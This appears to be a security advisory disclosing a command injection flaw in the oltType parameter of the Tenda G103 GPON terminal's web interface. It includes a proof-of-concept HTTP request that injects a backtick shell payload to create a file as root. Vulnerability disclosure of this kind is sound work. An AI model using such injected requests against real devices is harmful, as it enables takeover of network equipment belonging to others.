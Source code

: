 # Tenda G103 Command Injection Vulnerability in `oltType` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability is triggered when the `modeOption` parameter is set to `2` or `3` (manual VLAN mode), allowing the `oltType` parameter to be passed to system commands without proper sanitization. Authenticated attackers can exploit this to execute arbitrary system commands with root privileges, leading to full device compromise.

The environment can be simulated using FirmAE:



![FirmAE Emulation 1](./imgs/1.png)



![FirmAE Emulation 2](./imgs/2.png)

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com.cn/material/show/2615](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `oltType` (requires `modeOption=2` or `3`)

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, OLT configuration tampering, network access control bypass, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function processes the `oltType` parameter, which specifies the type of OLT (Optical Line Terminal) in GPON networks. A critical flaw exists: when `modeOption` is set to `2` or `3` (manual VLAN mode), `oltType` is directly concatenated into `fw_setenv` system commands without sanitization.

Key vulnerable code in `gpon.lua`:



![Vulnerable Code Snippet](./imgs/3.png)



When `modeOption` is `2` or `3`, attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in `oltType`. These characters are not filtered, allowing the injected payload to be executed by the system shell.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 101
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: \*/\*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: http://192.168.0.1
Referer: http://192.168.0.1/cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; sysauth=1db9fe0d814594958dc79f73fa79196d; sysauth=; repeatTimes=2; isLogin=true
Connection: keep-alive

&authSerialNo=&modeOption=3&usVlanId=0&usVlanPriority=0&oltType=1`touch$IFS/tmp/oltType.txt`&dhcpen=0
```

#### Execution Steps:



1.  Send the POST request above with `modeOption=3` (to trigger manual VLAN mode) and a valid `stok` (session token).

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/oltType.txt`.

#### Expected Result:

The file `/tmp/oltType.txt` is created, confirming successful execution of the injected `touch` command.



![PoC Result 1](./imgs/4.png)



![PoC Result 2](./imgs/5.png)
